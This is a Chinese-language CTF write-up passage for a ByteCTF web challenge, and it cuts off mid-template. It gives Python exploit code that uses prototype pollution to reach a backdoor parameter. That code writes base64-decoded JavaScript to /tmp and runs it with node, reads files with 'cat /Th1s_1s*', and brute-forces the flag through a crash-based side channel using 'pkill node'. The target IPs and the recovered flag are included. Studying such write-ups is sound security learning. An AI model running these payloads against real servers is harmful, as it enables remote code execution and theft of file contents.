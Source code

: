 ```python
    params = "echo {} | base64 -d > /tmp/ddd.js;node /tmp/ddd.js".format(base64.b64encode(t.encode()).replace(b'\n',b'').decode())
    # print(params)
    requests.get(url +"?ByteCTF[__proto__][length]=100000&ByteCTF[toString]=&ByteCTF[][a]&backdoor="+parse.quote(params))

if __name__ == "__main__":
    # 例如搜索出了出了第四位字符 
    # 那么第三位大概率是正确的 
    # 需不少人工判断
    result = ""
    result = "T"
    result = "Th1s_1s"
    for i in range(len(result), 10000000):
        find = False
        for char in string.ascii_letters + "_- " + string.digits:
            print(i, len(result), char, result + char)
            t = template.format(len(result), char, result)
            # print(t)

            try:
                remote_exec(t)
            except:
                continue

            try:
                requests.get(url, timeout=5)
                requests.get(url, timeout=5)
                requests.get(url, timeout=5)
            except:
                find = True
                result += char
                print(result)
                sleep(5)
                break

        if not find:
            result += ""
```

而恰好第一个文件名就是`flag`的存放位置，感觉路子应该差不多，另外这个文件名稍微爆出来几位之后就可以使用`cat xxx*`去表示了，在这里爆破了`Th1s_1s`，那么之后爆破`flag`就可以使用`cat Th1s_1s*`打开文件，然后继续遍历爆破了，最后得到`flag`为`bytectf{50579195da002fa989432cbc1a83e38f5d3765122d9a7d4d767f99a61fa58f22}`，真的是够长，爆破也需要很长时间费很大劲。

```python
# blasting_flag.py 爆破`flag`

import requests
from urllib import parse
import base64
from time import sleep
import string

# url = "http://39.106.69.116:30001/"
url = "http://39.106.34.228:30001/"

template = '''
    const exec = require("child_process").exec;
    const fs = require("fs");
    const cmd = "cat /Th1s_1s*";

    exec(cmd, function(error, stdout, stderr) {{ 
        if(stdout[{0}]==="{1}" && stdout.substr(0,{0})==="{2}"){{
            exec("pkill node");
```